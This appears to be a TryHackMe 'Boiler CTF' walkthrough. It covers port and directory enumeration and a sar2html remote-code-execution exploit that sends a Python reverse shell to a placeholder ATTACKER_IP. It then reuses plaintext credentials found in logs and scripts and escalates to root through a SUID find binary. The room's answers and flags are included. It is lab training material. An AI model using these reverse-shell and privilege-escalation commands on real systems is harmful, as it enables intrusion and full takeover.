


## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

As usual, some port scans and enumeration stuffs are in order:
```shell-session
$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP 
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 63
80/tcp    open  http             syn-ack ttl 63
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=TARGET_IP
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://TARGET_IP:80/manual/de/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/tr/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/ko/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/ja/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/fr/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/zh-cn/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/da/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/en/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/pt-br/index.html
|     Form id: 
|     Form action: http://www.google.com/search
|     
|     Path: http://TARGET_IP:80/manual/es/index.html
|     Form id: 
|_    Form action: http://www.google.com/search
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|_  /robots.txt: Robots file
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|_      http://www.exploit-db.com/exploits/1997/
```

The `nmap` "vuln" script shows a very nice CVE to exploit for the webmin service running on port 10000. Let's check if there's any more services and stuff we can exploit...

```shell-session
## nmap takes tooooo long, so do yourself a favour and use rustscan for this part :)
$ rustscan -a TARGET_IP
Open TARGET_IP:21
Open TARGET_IP:80
Open TARGET_IP:10000
Open TARGET_IP:55007
...
...
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack
80/tcp    open  http             syn-ack
10000/tcp open  snet-sensor-mgmt syn-ack
55007/tcp open  unknown          syn-ack

# Time for some service scanning:
$ sudo nmap -sV -p21,80,10000,55007 -vv -oN nmap_service_scan.txt TARGET_IP 
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the `ftp` service before we move on:
```shell-session
$ ftp  TARGET_IP 
Connected to TARGET_IP.
220 (vsFTPd 3.0.3)
Name (TARGET_IP:novusedge): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||42528|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
229 Entering Extended Passive Mode (|||48889|)
150 Opening BINARY mode data connection for .info.txt (74 bytes).
100% |*************************************************************************************************************************************************|    74      760.69 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (0.52 KiB/s)
ftp> bye
221 Goodbye.

$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

# Hmmm.... looks some type of ROT cipher, I'm guessing it's ROT13, let's try to decrypt it assuming it's ROT13:
$ echo "Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl\!" | tr "$(echo -n {A..Z} {a..z} | tr -d ' ')" "$(echo -n {N..Z} {A..M} {n..z} {a..m} | tr -d ' ')"

Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
``` 

Question 1:
> File extension after anon login
> 
> Answer: `txt`

Question 2:
> What is on the highest port?
> 
> Answer: `ssh`

Question 3:
> What's running on port 10000?
> 
> Answer: `Webmin`

Let's try accessing the service running on port 10000:
```shell-session
$ curl http://TARGET_IP:10000   
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-TARGET_IP.eu-west-1.compute.internal:10000/'>https://ip-TARGET_IP.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

Well, since the service is secured, there's not much chance we can exploit it...
> Can you exploit the service running on that port? (yay/nay answer)
> 
> Answer: `nay`

The `http` service on port 80 however, takes us to the default ubuntu apache server page.  Let's try some directory enumeration:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt
...

/.hta.xml             (Status: 403) [Size: 295]
/.htaccess.php        (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess.xml        (Status: 403) [Size: 300]
/.hta.txt             (Status: 403) [Size: 295]
/.htpasswd.xml        (Status: 403) [Size: 300]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.hta                 (Status: 403) [Size: 291]
/.hta.php             (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 300]
/index.html           (Status: 200) [Size: 11321]
/joomla               (Status: 301) [Size: 313] [--> http://TARGET_IP/joomla/]
/manual               (Status: 301) [Size: 313] [--> http://TARGET_IP/manual/]
/robots.txt           (Status: 200) [Size: 257]
/robots.txt           (Status: 200) [Size: 257]
/server-status        (Status: 403) [Size: 300]


$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_dirlist2_3_small.txt
$ cat gobuster_dirlist2_3_small.txt 
/.php                 (Status: 403) [Size: 291]
/manual               (Status: 301) [Size: 313] [--> http://TARGET_IP/manual/]
/robots.txt           (Status: 200) [Size: 257]
/joomla               (Status: 301) [Size: 313] [--> http://TARGET_IP/joomla/]
/.php                 (Status: 403) [Size: 291]
```

So, we have a `joomla` CMS running on the server.
> What's CMS can you access?
> 
> Answer: `joomlaLet's try and get the version for the JoomlaCMS running on the server:`


```shell-session
msf6 > search joomla

Matching Modules
================

   #   Name                                                    Disclosure Date  Rank       Check  Description
   -   ----                                                    ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/joomla_gallerywd_sqli_scanner    2015-03-30       normal     No     Gallery WD for Joomla! Unauthenticated SQL Injection Scanner
   1   exploit/unix/webapp/joomla_tinybrowser                  2009-07-22       excellent  Yes    Joomla 1.5.12 TinyBrowser File Upload Code Execution
   2   auxiliary/admin/http/joomla_registration_privesc        2016-10-25       normal     Yes    Joomla Account Creation and Privilege Escalation
   3   exploit/unix/webapp/joomla_akeeba_unserialize           2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   4   auxiliary/scanner/http/joomla_bruteforce_login                           normal     No     Joomla Bruteforce Login Utility
   5   exploit/unix/webapp/joomla_comfields_sqli_rce           2017-05-17       excellent  Yes    Joomla Component Fields SQLi Remote Code Execution
   6   exploit/unix/webapp/joomla_comjce_imgmanager            2012-08-02       excellent  Yes    Joomla Component JCE File Upload Remote Code Execution
   7   exploit/unix/webapp/joomla_contenthistory_sqli_rce      2015-10-23       excellent  Yes    Joomla Content History SQLi Remote Code Execution
   8   exploit/multi/http/joomla_http_header_rce               2015-12-14       excellent  Yes    Joomla HTTP Header Unauthenticated Remote Code Execution
   9   exploit/unix/webapp/joomla_media_upload_exec            2013-08-01       excellent  Yes    Joomla Media Manager File Upload Vulnerability
   10  auxiliary/scanner/http/joomla_pages                                      normal     No     Joomla Page Scanner
   11  auxiliary/scanner/http/joomla_plugins                                    normal     No     Joomla Plugins Scanner
   12  auxiliary/gather/joomla_com_realestatemanager_sqli      2015-10-22       normal     Yes    Joomla Real Estate Manager Component Error-Based SQL Injection
   13  auxiliary/scanner/http/joomla_version                                    normal     No     Joomla Version Scanner
   14  auxiliary/gather/joomla_contenthistory_sqli             2015-10-22       normal     Yes    Joomla com_contenthistory Error-Based SQL Injection
   15  auxiliary/gather/joomla_weblinks_sqli                   2014-03-02       normal     Yes    Joomla weblinks-categories Unauthenticated SQL Injection Arbitrary File Read
   16  auxiliary/scanner/http/joomla_ecommercewd_sqli_scanner  2015-03-20       normal     No     Web-Dorado ECommerce WD for Joomla! search_category_id SQL Injection Scanner


Interact with a module by name or index. For example info 16, use 16 or use auxiliary/scanner/http/joomla_ecommercewd_sqli_scanner

msf6 > use 13
msf6 auxiliary(scanner/http/joomla_version) > setg RHOSTS  TARGET_IP 
RHOSTS => TARGET_IP
msf6 auxiliary(scanner/http/joomla_version) > set TARGETURI /joomla/
TARGETURI => /joomla/
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.18 (Ubuntu)
[+] Joomla version: 3.9.12-dev
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


Some more directory enumeration:
```shell-session
$ gobuster dir -t 120 -u http://TARGET_IP/joomla -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt
$ cat gobuster_common.txt    
/.hta                 (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 303]
/_archive             (Status: 301) [Size: 322] [--> http://TARGET_IP/joomla/_archive/]
/_database            (Status: 301) [Size: 323] [--> http://TARGET_IP/joomla/_database/]
/_files               (Status: 301) [Size: 320] [--> http://TARGET_IP/joomla/_files/]
/_test                (Status: 301) [Size: 319] [--> http://TARGET_IP/joomla/_test/]
/administrator        (Status: 301) [Size: 327] [--> http://TARGET_IP/joomla/administrator/]
/bin                  (Status: 301) [Size: 317] [--> http://TARGET_IP/joomla/bin/]
/build                (Status: 301) [Size: 319] [--> http://TARGET_IP/joomla/build/]
/cache                (Status: 301) [Size: 319] [--> http://TARGET_IP/joomla/cache/]
/components           (Status: 301) [Size: 324] [--> http://TARGET_IP/joomla/components/]
/images               (Status: 301) [Size: 320] [--> http://TARGET_IP/joomla/images/]
/includes             (Status: 301) [Size: 322] [--> http://TARGET_IP/joomla/includes/]
/index.php            (Status: 200) [Size: 12478]
/installation         (Status: 301) [Size: 326] [--> http://TARGET_IP/joomla/installation/]
/language             (Status: 301) [Size: 322] [--> http://TARGET_IP/joomla/language/]
/layouts              (Status: 301) [Size: 321] [--> http://TARGET_IP/joomla/layouts/]
/libraries            (Status: 301) [Size: 323] [--> http://TARGET_IP/joomla/libraries/]
/media                (Status: 301) [Size: 319] [--> http://TARGET_IP/joomla/media/]
/modules              (Status: 301) [Size: 321] [--> http://TARGET_IP/joomla/modules/]
/plugins              (Status: 301) [Size: 321] [--> http://TARGET_IP/joomla/plugins/]
/templates            (Status: 301) [Size: 323] [--> http://TARGET_IP/joomla/templates/]
/tests                (Status: 301) [Size: 319] [--> http://TARGET_IP/joomla/tests/]
/tmp                  (Status: 301) [Size: 317] [--> http://TARGET_IP/joomla/tmp/]
/~www                 (Status: 301) [Size: 318] [--> http://TARGET_IP/joomla/~www/]
```

There are 4 directories that're interesting. Namely:
- `_archive`
- `_database`
- `_files`
- `_test`

Visiting these locations gives us several results, nothing useful until we reach `_test`. Upon visiting the last, we see the following page:



## Gaining Access
Upon searching for exploits for `sar2html`, I came across [this exploit](https://www.exploit-db.com/exploits/49344) that enables RCE based on some _plot_ feature. Let's see if it works:
```shell-session
$ python3 49344.py
Enter The url => http://TARGET_IP/joomla/_test
Command => python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

##################################################
# On another session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 53630
www-data@Vulnerable:/var/www/html/joomla/_test$ 

<CTRL+Z>

$ stty raw -echo && fg

[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
www-data@Vulnerable:/var/www/html/joomla/_test$ whoami
www-data
```

And we're in! Let's get started with some recon and hopefully getting the user flag...
```shell-session
www-data@Vulnerable:/var/www/html/joomla/_test$ ls
index.php  log.txt  sar2html  sarFILE
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```


> The interesting file name in the folder?
> 
> Answer: `log.txt`

With the credentials for the user `basterd` we can now use the `ssh` service running on port 55007:
```shell-session
$ ssh -l basterd -p 55007 TARGET_IP
password: superduperp@$$

...

$ bash
basterd@Vulnerable:~$ pwd
/home/basterd
basterd@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

The `backup.sh` script seems to take some backups (as the name suggests) and store them in `/usr/local/backup`
> Where was the other users pass stored(no extension, just the name)?
> 
> Answer: `backup`

The script also has the credentials for the user: `stoner`. Let's use them to log in as `stoner`:
```shell-session
$ ssh stoner@TARGET_IP -p 55007 
stoner@TARGET_IP's password: superduperp@$$no1knows

stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Feb 26 12:55 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Feb 26 12:55 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
```

The contents of this file are supposed to be the user flag :)
> user.txt
> 
> Answer: `You made it till here, well done.`

Now... we move onto some privesc.

## Privilege Escalation

```shell-session
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa

stoner@Vulnerable:~$ uname -a
Linux Vulnerable 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:01:15 UTC 2019 i686 i686 i686 GNU/Linux

stoner@Vulnerable:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

We have a nice selection of stuff to use; consulting GTFOBins, we find a nice way to exploit the `find` binary:


```shell-session
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls -la
total 12
drwx------  2 root root 4096 Aug 22  2019 .
drwxr-xr-x 22 root root 4096 Aug 22  2019 ..
-rw-r--r--  1 root root   29 Aug 21  2019 root.txt
# cat root.txt
It wasn't that hard, was it?
```

> What did you exploit to get the privileged user?
> 
> Answer: `find`


> root.txt
> 
> Answer: `It wasn't that hard, was it?`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Boiler CTF by MrSeth6797](https://tryhackme.com/room/boilerctf2)
